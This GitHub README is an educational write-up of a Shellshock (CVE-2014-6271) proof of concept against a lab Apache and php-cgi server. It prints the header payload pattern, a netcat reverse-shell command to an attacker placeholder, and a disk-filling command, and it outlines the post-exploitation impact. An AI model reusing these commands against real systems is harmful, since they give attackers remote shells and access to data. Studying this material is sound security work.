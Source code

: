 RBE
===

Remote Bash Execution

This POC (proof of concept) is for EDUCATIONAL PURPOSES ONLY! Please, do not use it with wrong intents in mind.

We set up a simple PHP website and a Python executable that exploits the [bash shellshock vulnerability](http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/).


Development
=============
Please note that all the following tests were done in a local controlled environment for educational purposes only. Do NOT do this at home!
- Initially, we tested the vulnerability on our environments with the following command (see the link above for the source): 
 
 `env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`

- Next, we set up an http server on a CentOS machine with Apache and php-cgi running a very simple script (see index.php).

- We started out by sending simple crafted HTTP packets that echoed text (inspired by [this blog post](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html#.VCNinnVdW00). The JOY when it worked!

- We then tested more elaborate commands to discover what we had access to. In our case, typing the command names as an apache user would not resolve the commands, yet calling them explicitly (`/usr/bin/command`) worked. We were then able, for example, to run `find` commands and see all the files we had access to.

- At this point, it was annoying to type the commands individually. Fortunately, `nc` was installed on the server, so we used a reverse bind shell (`nc -lvp xxx` for the attacker and `nc -e /usr/bin/sh atckr_addr port` for the victim) for flexibility. At this point, we had a shell on the system, but running as an apache user, all through a single HTTP packet with the right (or wrong?) headers.

- To simplify the process, we made a python script (in this repo) that calls netcat automatically.

Impact
======
With a shell on the victim's computer (limited as much as the apache user is on the machine), here is what we believe an attacker could do at this point:

- In our case, we only had write access to /tmp (which was actually a subdirectory within the real /tmp), so no straightforward way for a permanent backdoor.

- We had access to the source code, which could be leaked afterwards.

- Depending on the setup (and knowledge of the attacker), one could privilege escalate and break the apache jail.

- Once inside, we can easily DDoS the system (which can hurt companies). We experienced this ourselves by playing around with `cat /dev/urandom/ > file`.

- We can DDoS another target (the initial target most likely has more firepower than an average system).

- We had access to the LAN, which could give access to new computers behind the firewall.

We probably are missing many other potential attack vectors here, but that is what we observed given a one-night hack-a-ton.

Therefore, we can see the major impact that CVE-2014-6271 ("shellshock") has.

The Exploit
===========
Given our limited knowledge of bash internals and the short time window that we had, here is what we understood of the exploit:

- When bash reads an environment variable containing a specially crafted function (i.e. `() { :; };`), it also executes the commands following the function definition (e.g. `echo hacked`).

- This can not really be exploited remotely by itself, it needs software that takes user input as a source for environment variable values.

- So, when php-cgi is started by Apache through bash (which looks like the default behavior), certain HTTP headers are passed through env (e.g. referer, host, cookies, etc.). However, not all CGIs pass these values through env (e.g. FastCGI communicates through sockets), so they are not all affected (we tested it!)

- Now, given carefully crafted HTTP headers (such as `() { :; }; echo hacked`), the next instruction through bash (e.g. a PHP `exec()`) will trigger the vulnerability.

Conclusion
==========
Finally, this was a very entertaining and rewarding experience. We clearly saw how dangerous this vulnerability is. For example, we have read about other software than Apache that can be used to exploit bash, such as DHCP clients. A clever attacker could start a malicious DHCP server in proximity of the victims and gain root access on the systems (as the dhcp client will execute the command as root).

Interestingly, we were surprised while testing the exploit: our reverse bind shell through nc was not interrupted when the connection with Apache is timed out. We expected the connection to be closed, but the actual behavior ended up being convenient.

We want to emphasize the fact that this was for educational purposes only. Please do not use with malicious intent.


This analysis was brought to you by [/JesseEmond](https://github.com/JesseEmond) and [/Parasithe](https://github.com/Parasithe).
